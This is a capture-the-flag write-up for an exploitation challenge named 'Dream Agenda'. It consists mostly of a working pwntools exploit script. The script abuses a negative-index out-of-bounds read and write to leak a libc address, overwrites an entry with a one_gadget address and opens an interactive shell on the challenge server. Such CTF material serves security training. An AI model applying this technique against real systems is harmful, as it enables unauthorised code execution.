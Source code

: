 # Dream Agenda

### Description

- **Category**: Exploiting

Just a phone book. Just pwn it. 

```
nc ctf.h-c0n.com 60001
```

### Solution

```python
#!/usr/bin/env python
from pwn import *
context(arch='amd64', os='linux')

def main():
    elf= ELF('./dream_agenda')
    libc= ELF('./libc6_2.23-0ubuntu11_amd64.so')
    r=remote('ctf.h-c0n.com', 60001)
    printf_offset=libc.sym['printf']
    one_gadget_off=0x45216

    printf_leak=read64(r, '-15')
    libc_base=printf_leak-printf_offset
    one_gadget = libc_base + one_gadget_off
    log.info('one_gadget '+str(one_gadget))
    r.recvuntil('>> ')
    r.sendline('2')
    r.recvuntil('Type an index to edit: ')
    r.sendline('-15')
    r.recvuntil('Type a number: ')
    r.sendline(str(one_gadget))
    r.interactive()

def read64(r, offset):
    r.recvuntil('>> ')
    r.sendline('4')
    r.recvuntil('Type an index to show: ')
    r.sendline(offset)
    leak=int(r.recvline()[8:])
    log.info('Printf leak: '+str(leak))
    leak=p64(leak)
    return u64(leak)
if __name__ == '__main__':
    main()
```

![](./1.png)



![](./2.png)




